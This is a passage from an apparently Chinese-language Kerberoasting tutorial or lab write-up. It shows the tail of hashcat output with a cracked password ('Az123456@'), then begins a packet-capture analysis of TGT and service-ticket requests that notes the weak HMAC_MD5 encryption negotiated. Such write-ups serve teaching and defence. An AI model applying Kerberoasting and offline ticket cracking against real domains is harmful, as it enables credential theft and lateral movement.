Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Az123456@ -> Az123456@
Hardware.Mon.#1..: Util: 26%

Started: Sat Aug 24 14:49:20 2024
Stopped: Sat Aug 24 14:49:22 2024

```

# 六、Kerberoasting抓包分析
## 1、请求TGT


## 2、请求ST
TGS-REQ申请的时候指定加密类型有HMAC_MD5，DES，DES3



响应结果为HMAC_MD5

